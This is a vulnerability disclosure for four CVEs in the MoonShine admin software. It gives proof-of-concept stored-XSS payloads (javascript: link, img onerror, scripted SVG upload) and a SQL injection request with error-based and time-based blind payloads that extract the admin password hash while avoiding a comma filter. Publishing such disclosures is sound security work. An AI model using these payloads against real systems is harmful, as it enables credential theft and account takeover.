 # MoonShine Software Vulnerability Disclosure
Author: Giacomo Lenzini - GiacoLenzo2109
## CVE-2025-51487 - Stored XSS
### Description
A Stored Cross-Site Scripting (XSS) vulnerability exists in MoonShine version < 3.12.5, allowing remote attackers to store and execute arbitrary JavaScript in the browser of a user by including a payload using "javascript:", instead of the expected HTTPS protocol, in the CutCode *Link* parameter when creating/updating a new Article.
### CVSS 3.1 - 4.5 Medium
CVSS:3.0/AV:N/AC:L/PR:H/UI:R/S:U/C:H/I:N/A:N
### PoC - Proof of Concept
The XSS is related to the creation of a new article:  
1. Under the sidebar: *Blog -> Articles*

2. Under *Link -> CutCode* insert the following payload under: `javascript:alert("XSS")`
![/images/CVE-2025-51487_1.png](/images/CVE-2025-51487_1.png)


3. Complete all other fields and save

4. Load all articles and check for your last article saved. Under the link field you will see your payload. Click on it, a popup will be opened showing the message "XSS"
![/images/CVE-2025-51487_2.png](/images/CVE-2025-51487_2.png)
![/images/CVE-2025-51487_3.png](/images/CVE-2025-51487_3.png)

## CVE-2025-51488 - Stored XSS
### Description
A Stored Cross-Site Scripting (XSS) vulnerability exists in MoonShine version < 3.12.4, allowing remote attackers to store and execute arbitrary JavaScript in the browser of a user by including a malicious payload in the *Name* parameter when creating a new Admin.
### CVSS 3.1 - 4.9 Medium
CVSS:3.0/AV:N/AC:L/PR:H/UI:N/S:U/C:H/I:N/A:N
### PoC - Proof of Concept
The issue is related to the function to add a new Admin.  

1. Under the Sidebar "System" tab: *Admins -> Create*

2. Insert the following payload under the *Name* input field: `<img src=x onerror=alert("XSS")>`
![/images/CVE-2025-51488_1.png](/images/CVE-2025-51488_1.png)

3. Save

4. Under the sidebar select *Blog -> Articles*: now a popup will be opened showing the message "XSS"  
![/images/CVE-2025-51488_2.png](/images/CVE-2025-51488_2.png)

## CVE-2025-51489 - Reflected XSS via Unrestriced File Upload
### Description
A Stored Cross-Site Scripting (XSS) vulnerability exists in MoonShine version < 3.12.5, allowing remote attackers to upload a malicious SVG file in *Files -> Thumbnail* when creating/updating an Article and correctly execute arbitrary JavaScript in the victim's browser when the file link is opened by the victim.
### CVSS 3.1 - 4.5 Medium
CVSS:3.0/AV:N/AC:L/PR:H/UI:R/S:U/C:H/I:N/A:N
### PoC - Proof of Concept
When creating a new Article (*Blog -> Articles*), an attacker could upload the following SVG under *Files -> Thumbnail* field.
```
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">

<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
   <rect width="300" height="100" style="fill:rgb(255,0,0);stroke-width:3;stroke:rgb(0,0,0)" />
   <script type="text/javascript">
      alert("XSS!");
   </script>
</svg>
```
![/images/CVE-2025-51489_1.png](/images/CVE-2025-51489_1.png)
![/images/CVE-2025-51489_2.png](/images/CVE-2025-51489_2.png)


## CVE-2025-51510 - SQL Injection
### Description
MoonShine was discovered to contain a SQL injection vulnerability via the Data parameter under the Blog module when using the moonshine-tree-resource component. An example of the use of this vulnerable component can be found under the public MoonShine Software demo based on MoonShine Software 3.12.5 (https://github.com/moonshine-software/demo-project - commit 72a1d80bf23de6c3457205630eb25409432bdbe0).

The vulnerable component is the following https://github.com/lee-to/moonshine-tree-resource (version < 2.0.2).
### CVSS 3.1 - 4.9 Medium
CVSS:3.0/AV:N/AC:L/PR:H/UI:N/S:U/C:H/I:N/A:N
### PoC - Proof of Concept
To correctly intercept the vulnerable request, change the position of a category (for example, the one highlighted in blue) by moving it up/down.
![/images/CVE-2025-51510.png](/images/CVE-2025-51510.png)

Vulnerable SQLi request, injecting a payload inside the *data* request field that shows the database version.
```
POST /admin/category-resource/sortable HTTP/1.1
Host: localhost
Content-Length: 431
sec-ch-ua-platform: "macOS"
X-XSRF-TOKEN: <REPLACE>
sec-ch-ua: "Chromium";v="136", "Google Chrome";v="136", "Not.A/Brand";v="99"
sec-ch-ua-mobile: ?0
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
Accept: application/json, text/plain, */*
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryuLTeqJXF3L06Er3R
Origin: http://localhost
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost/admin/resource/category-resource/category-index-page
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: en-US,en;q=0.9
Cookie: XSRF-TOKEN=<REPLACE>; laravel_session=<REPLACE>

------WebKitFormBoundaryuLTeqJXF3L06Er3R
Content-Disposition: form-data; name="id"

1
------WebKitFormBoundaryuLTeqJXF3L06Er3R
Content-Disposition: form-data; name="parent"


------WebKitFormBoundaryuLTeqJXF3L06Er3R
Content-Disposition: form-data; name="index"

1
------WebKitFormBoundaryuLTeqJXF3L06Er3R
Content-Disposition: form-data; name="data"

(SELECT @@version)
------WebKitFormBoundaryuLTeqJXF3L06Er3R--
```

Here an example of the dumped db version:
![/images/CVE-2025-51510_1.png](/images/CVE-2025-51510_1.png)

It’s possible to manually exploit this SQLi vulnerability by placing the following payload inside the *data* form parameter. The following payload is specifically crafted to retrieve the *admin* password from the *moonshine_users* table.

In order to extract the desired information, the value returned by the SELECT statement must be concatenated with a numeric value. This operation causes the database to throw an exception (e.g. `SQLSTATE[22007]: Invalid datetime format: 1292 Truncated incorrect DOUBLE value: '<VALUE_SELECTED>'`), which in turn includes the selected data inside the response as shown in the figure below.

```
(SELECT password || 1 FROM moonshine_users WHERE id=1)
```

-> Remember not to create queries that use commas, since the backend replaces commas with ` THEN 0 WHEN ` before executing them in the database.

![/images/CVE-2025-51510_3.png](/images/CVE-2025-51510_3.png)

This vulnerability can also be exploited without concatenating the value with an integer, by using a blind method that relies on measuring response times.

```
(SELECT password FROM moonshine_users WHERE id=1 AND BINARY SUBSTRING(password FROM <LETTER_POSITION> FOR 1)='<CHARACTER>' AND SLEEP(1))
```

This query is used in a time-based blind SQL injection to extract a user’s password one character at a time without using commas. It checks if a specific character at a certain position matches a guessed value, and if true, delays the response by a set amount of time, allowing to infer the correct character from the response delay.

It's possible to run the attached Python script ([CVE-2025-51510.py](CVE-2025-51510.py)), it was possible to extract *admin* hash from *moonshine_users* table.

Replace the cookies within the script with valid ones.

The following image shows the *admin* hash correctly dumped character by character:
![/images/CVE-2025-51510_4.png](/images/CVE-2025-51510_4.png)

![/images/CVE-2025-51510_2.png](/images/CVE-2025-51510_2.png)


